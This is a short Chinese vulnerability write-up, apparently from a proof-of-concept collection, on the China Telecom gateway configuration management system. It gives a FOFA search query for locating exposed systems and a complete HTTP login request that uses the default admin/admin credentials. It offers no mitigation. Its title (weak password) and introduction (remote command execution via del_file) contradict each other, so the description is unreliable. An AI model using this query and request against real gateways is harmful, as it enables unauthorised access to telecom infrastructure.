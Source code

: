 # 电信网关配置管理系统存在弱口令漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgba(0, 0, 0, 0.9);">中国电信集团有限公司（英文名称“China Telecom”、简称“中国电信”）成立于2000年9月，是中国特大型国有通信企业、上海世博会全球合作伙伴。电信网关配置管理系统del_file存在远程命令执行漏洞，攻击者可通过该漏洞获取服务器权限。</font><font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●电信网关配置管理系统  
</font>**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**<font style="color:rgb(38, 38, 38);">  
</font><font style="color:rgb(38, 38, 38);">●fofabody="src=\"img/dl.gif\"" && title="系统登录"  
●特征</font>

![1713231679173-db9b0c3c-79d6-4f91-baac-a8358f5ccad1.png](./img/_B2JSQE8NXjKlV47/1713231679173-db9b0c3c-79d6-4f91-baac-a8358f5ccad1-665634.webp)

<font style="color:rgb(38, 38, 38);">  
</font>**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**

```yaml
POST /manager/login.php HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=tskslsm160gbfc5o8uskotr8i3
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 21

Name=admin&Pass=admin
```

![1715327827741-bc58eb3d-2fa2-4e56-b04f-9bdd8dd8b59a.png](./img/_B2JSQE8NXjKlV47/1715327827741-bc58eb3d-2fa2-4e56-b04f-9bdd8dd8b59a-686922.png)



> 更新: 2024-05-14 11:22:11  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tskidd2bz9yqeir3>